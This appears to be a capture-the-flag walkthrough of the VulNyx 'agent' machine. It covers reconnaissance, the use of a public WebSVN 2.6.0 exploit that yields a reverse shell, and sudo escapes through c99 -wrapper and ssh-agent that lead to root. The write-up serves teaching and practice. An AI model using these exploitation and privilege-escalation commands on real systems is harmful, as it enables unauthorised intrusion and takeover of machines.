

# agent

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| agent | d4t4s3c | Low | VulNyx |

**Summary:** The agent machine exposed a compact attack surface with OpenSSH on port 22 and nginx on port 80. Direct access to the web root returned a forbidden response, but directory enumeration with a randomized user agent discovered a WebSVN instance under `/websvn/`. The application version was identified as WebSVN 2.6.0, which was vulnerable to the public exploit referenced by Exploit Database entry 50042. Running the proof of concept against the WebSVN endpoint produced a reverse shell as `www-data`. Local sudo enumeration then revealed a staged privilege chain: `www-data` could execute the C compiler frontend `/usr/bin/c99` as `dustin`, and abusing the `-wrapper` option caused `c99` to launch `/bin/sh` as that user. From the `dustin` context, sudo policy exposed passwordless execution of `/usr/bin/ssh-agent` as root. Launching `ssh-agent` with `/bin/sh -c 'exec /bin/bash -p'` preserved root privileges, producing a root shell and allowing both flags to be read.

---

## Reconnaissance

The assessment began with host discovery and service enumeration on the local lab network.

1. An Nmap ping sweep located the target at `192.168.56.125`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24            
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-15 10:29 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00023s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.00084s latency).
MAC Address: 08:00:27:3F:F0:83 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.125 (192.168.56.125)
Host is up (0.00061s latency).
MAC Address: 08:00:27:81:7F:31 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 1.98 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.125
```

2. A full TCP scan showed only SSH and HTTP exposed:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=5000 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-15 10:29 -0400
Nmap scan report for 192.168.56.125 (192.168.56.125)
Host is up (0.00035s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:81:7F:31 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.43 seconds
```

3. Service detection identified OpenSSH 9.2p1 and nginx 1.22.1:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 22,80 -sC -sV -T4 -Pn $ip   
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-15 10:29 -0400
Nmap scan report for 192.168.56.125 (192.168.56.125)
Host is up (0.00041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.22.1
MAC Address: 08:00:27:81:7F:31 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.10 seconds
```

4. A header request to the root web path returned HTTP 403, indicating that direct directory access was blocked:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -I http://$ip/                                                            
HTTP/1.1 403 Forbidden
Server: nginx/1.22.1
Date: Sat, 15 Aug 2026 14:37:50 GMT
Content-Type: text/html
Content-Length: 153
Connection: keep-alive
```

5. Directory enumeration found an accessible WebSVN deployment:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt --random-agent -x php,txt,html
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.125/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              Mozilla/4.0 (compatible; MSIE 5.0; Linux 2.4.4 i686) Opera 6.11  [en]
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 615]
index.html           (Status: 200) [Size: 615]
websvn               (Status: 301) [Size: 169] [--> http://192.168.56.125/websvn/]
Progress: 19000 / 19000 (100.00%)
===============================================================
Finished
===============================================================
```

The discovered WebSVN interface disclosed version 2.6.0.



---

## Initial Access

### WebSVN 2.6.0 Exploitation

6. The public proof of concept from Exploit Database entry 50042 was used against the WebSVN path:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ python3 poc.py http://$ip/websvn
```

7. A Penelope listener received a reverse shell from the target as `www-data`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 10.0.2.15 • 192.168.56.104
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => agent 192.168.56.125 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>
[-] Cannot deploy agent with remote Python. Select an action below:

  1) Upload https://github.com/astral-sh/python-build-standalone/releases/download/20260610/cpython-3.13.14+20260610-x86_64-unknown-linux-musl-install_only_stripped.tar.gz
  2) Upload local Standalone Python binary
  3) Specify remote Standalone Python binary path
  4) None of the above

[?] Select action: 1
[•] ⤓ Downloading URL: https://github.com/astral-sh/python-build-standalone/releases/download/20260610/cpython-3.13.14+20260610-x86_64-unknown-linux-musl-install_only_stripped.tar.gz
```

The exploit provided code execution in the nginx hosted application context, resulting in a shell as `www-data`.

---

## Lateral Movement

### Abusing c99 as dustin

8. Sudo permissions for `www-data` revealed a passwordless transition path to user `dustin` through `/usr/bin/c99`:

```bash
www-data@agent:~/html/websvn$ sudo -l
sudo -l
Matching Defaults entries for www-data on agent:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on agent:
    (dustin) NOPASSWD: /usr/bin/c99
www-data@agent:~/html/websvn$ sudo -u dustin /usr/bin/c99
sudo -u dustin /usr/bin/c99
gcc: fatal error: no input files
compilation terminated.
```

9. The `c99` wrapper option was abused to execute `/bin/sh` as `dustin`:

```bash
www-data@agent:~/html/websvn$ sudo -u dustin /usr/bin/c99 -wrapper /bin/sh,-s . -x c /dev/null
<n /usr/bin/c99 -wrapper /bin/sh,-s . -x c /dev/null
id
uid=1000(dustin) gid=1000(dustin) groups=1000(dustin)
```

This moved execution from the web server account into the local user context of `dustin`.

---

## Privilege Escalation

### Root Shell Through ssh-agent

10. Sudo enumeration from the `dustin` shell showed passwordless access to `/usr/bin/ssh-agent` as root:

```bash
sudo -l
Matching Defaults entries for dustin on agent:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dustin may run the following commands on agent:
    (root) NOPASSWD: /usr/bin/ssh-agent
```

11. `ssh-agent` was launched through sudo with `/bin/sh` as its command, and the shell executed `/bin/bash -p` to preserve root privileges:

```bash
sudo /usr/bin/ssh-agent /bin/sh -c 'exec /bin/bash -p'
id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
agent
cat /home/dustin/user.txt /root/root.txt
```

At this point the session had full root privileges, and both the user and root flags were captured.

---

## Attack Chain Summary

1. **Reconnaissance**: Network scanning located `192.168.56.125`, with OpenSSH on port 22 and nginx on port 80 as the only exposed services.

2. **Vulnerability Discovery**: Directory enumeration found `/websvn/`, and the application was identified as WebSVN 2.6.0, matching a known public exploit.

3. **Exploitation**: Exploit Database proof of concept 50042 was executed against WebSVN, producing a reverse shell as `www-data`.

4. **Internal Enumeration**: Sudo policy showed that `www-data` could run `/usr/bin/c99` as `dustin`, and `dustin` could run `/usr/bin/ssh-agent` as root.

5. **Privilege Escalation**: The `c99 -wrapper` option spawned a shell as `dustin`, then `ssh-agent` was used through sudo to execute `/bin/bash -p` as root and complete the compromise.
